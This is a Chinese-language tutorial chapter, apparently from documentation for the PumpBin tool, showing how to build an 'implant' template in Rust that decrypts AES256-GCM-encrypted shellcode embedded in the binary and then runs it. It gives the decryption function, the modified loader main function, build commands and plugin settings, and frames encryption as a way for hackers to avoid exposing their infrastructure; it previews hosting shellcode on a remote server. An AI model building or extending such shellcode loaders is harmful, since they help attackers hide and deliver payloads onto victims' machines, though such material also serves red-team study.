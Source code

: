 # Encryption

在这一章, 我们将制作一个使用AES256-GCM加密方法的Plugin.

上一章我们使用PumpBin Maker制作Plugin时, Encrypt Type选择的是None.
这个选项在现实世界中出现有两个可能:

1. 你使用了PumpBin暂时不支持的加密方法(请提交一个issue)
1. 你使用了自定义的加密方法(PumpBin将来会设计hook系统, 你将可以在加密时, 生成时, 或者patch时运行自定义代码, 以实现最大的灵活性)

以上两种情况, 你可能想制作一个`Remote`类型的Plugin, 并且使用固定的加密密码, 仅仅使用PumpBin修改shellcode url.

除此之外, 大部分黑客应该都想加密自己的shellcode, 没有人会愿意暴露基础设施.

## 制作二进制植入物模板

要制作有加密功能的Plugin, 我们的二进制植入物模板需要先实现对应的解密逻辑.

我们将在[上一章代码](https://github.com/pumpbin/pumpbin/tree/main/examples/create_thread)的基础上更改.

在Cargo.toml文件末尾添加下面的依赖

```toml
aes-gcm = "0.10.3"
```

在main.rs中的main函数上面添加如下解密函数

```rust
fn decrypt(data: &[u8]) -> Vec<u8> {
    const KEY: &[u8; 32] = b"$$KKKKKKKKKKKKKKKKKKKKKKKKKKKK$$";
    const NONCE: &[u8; 12] = b"$$NNNNNNNN$$";

    let aes = Aes256Gcm::new_from_slice(KEY).unwrap();
    let nonce = Nonce::from_slice(NONCE);
    aes.decrypt(nonce, data).unwrap()
}
```

其中两个被$$包裹的数组引用, 上一章已经出现过, 是两个`Place Holder`, PumpBin使用它来定位占位数据.
(`Place Holder`是固定大小, `Prefix`是动态大小, 所以上一章中需要Size Holder来确定shellcode真实长度)

在main.rs中main函数内第4行后添加如下代码

```rust
let shellcode = decrypt(shellcode);
```

添加完成后的main函数如下

```rust
fn main() {
    let shellcode = include_bytes!("../shellcode");
    const SIZE_HOLDER: &str = "$$99999$$";
    let shellcode_len = usize::from_str_radix(SIZE_HOLDER, 10).unwrap();
    let shellcode = &shellcode[0..shellcode_len];
    let shellcode = decrypt(shellcode);
    let shellcode_size = shellcode.len();
    ...
```

编译修改后的`create_thread`项目, 我们将得到一个使用AES256-GCM解密shellcode的二进制植入物模板.

```sh
cargo b -r
```

## 制作Plugin

我们使用PumpBin Maker制作Plugin, 其余操作都相同, 唯一不同的是Encrypt Type选择AesGcm.

Key填写`$$KKKKKKKKKKKKKKKKKKKKKKKKKKKK$$`

Nonce填写`$$NNNNNNNN$$`

## 测试Plugin

用PumpBin安装制作的Plugin, 并使用`w64-exec-calc-shellcode-func`生成一个最终植入物, 运行应该看到calc程序被启动.

至此, 我们制作了一个使用AES256-GCM加密方法的`Local`类型Plugin

前两章中, 我总是将`Local`突出显示, 以提醒这是一个关键词, 正确理解它们对于使用PumpBin非常重要.

下一章, 我们将制作第一个`Remote`类型的Plugin. 这允许将shellcode托管在远程服务器.
PumpBin将根据加密设置, 生成加密的shellcode文件(None也是一种加密方式), 用户将加密的shellcode托管到远程服务器, 然后将托管地址告诉PumpBin.

本例中的完整项目文件在PumpBin代码仓库的[examples/create_thread_encrypt](https://github.com/pumpbin/pumpbin/blob/main/examples/create_thread_encrypt/src/main.rs).
